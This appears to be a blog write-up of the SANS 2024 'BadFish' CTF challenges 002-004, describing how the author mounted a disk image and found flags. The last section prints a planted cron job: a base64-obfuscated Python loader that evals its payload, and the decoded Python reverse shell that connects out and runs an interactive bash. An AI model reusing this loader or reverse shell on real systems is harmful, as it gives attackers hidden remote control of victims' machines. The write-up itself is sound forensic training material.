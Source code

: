 ```yaml
---
title: 2024 SANS Offensive Operation CTF - BadFish::002-004
date: 2024-02-28T07:00:00-07:00
tags:
  - img
image: 
---
```


### Summary
```
Uh Oh it seems a few bad fish got into the fish tank!

Can you find them all?

Zip Password: bAdFi5h

DISCLAIMER: Flag will start with the number of the challenge it belongs to.

```

### Badfish 002

I first started by mounting the img file.
```bash
sudo mount -o loop,offset=$((2048 * 512)) badfish.img /mnt/bf
```

Next, I started to enumerate the the files and discovered the second flag in /home/nemo/.bashrc.

![](/2024sansctf/badfish002.png)

### Badfish 003

Moving forward, I discovered the third flag ini the `/usr/bin/` directory as a suspected binary called `3_5tr1nGs_r_BaD_4_f15H`.


![](/2024sansctf/badfish003.png)

### Badfish 004

The last flag was setup as a cron job and stored in `/tmp/.d/daily.py`

```python
import base64

test = ""
for i in ['YmFzZTY0LmI2NGRlY29kZSgnQ21aeWI=', 'MjBnYjNNZ2FXMXdiM0owSUdSMWNESUs=', 'Wm5KdmJTQnpkV0p3Y205alpYTnpJR2w=', 'dGNHOXlkQ0J5ZFc0S2FXMXdiM0owSUg=', 'TnZZMnRsZEFwelBYTnZZMnRsZEM1emI=', 'Mk5yWlhRb2MyOWphMlYwTGtGR1gwbE8=', 'UlZRc2MyOWphMlYwTGxOUFEwdGZVMVI=', 'U1JVRk5LUXB6TG1OdmJtNWxZM1FvS0M=', 'STBYelZ1TTJGcmVWODFia1ZoYTFraUw=', 'RGc0T0RncEtRcGtkWEF5S0hNdVptbHM=', 'Wlc1dktDa3NNQ2tLWkhWd01paHpMbVo=', 'cGJHVnVieWdwTERFcENtUjFjRElvY3k=', 'NW1hV3hsYm04b0tTd3lLUXB5ZFc0b1c=', 'eUl2WW1sdUwySmhjMmdpTENJdGFTSmQ=', 'S1FvPScp']:
    test = test + base64.b64decode(i).decode()
eval(test)
```

I modified the python script to include `print(test)` when executing it. 
```python
python3 ./daily.py                                                                                  
base64.b64decode('CmZyb20gb3MgaW1wb3J0IGR1cDIKZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBydW4KaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCI0XzVuM2FreV81bkVha1kiLDg4ODgpKQpkdXAyKHMuZmlsZW5vKCksMCkKZHVwMihzLmZpbGVubygpLDEpCmR1cDIocy5maWxlbm8oKSwyKQpydW4oWyIvYmluL2Jhc2giLCItaSJdKQo=')
```

Base64 decoding that strinig gave me the following reverse shell including the flag.
```python
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("4_5n3aky_5nEakY",8888))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
run(["/bin/bash","-i"])
```
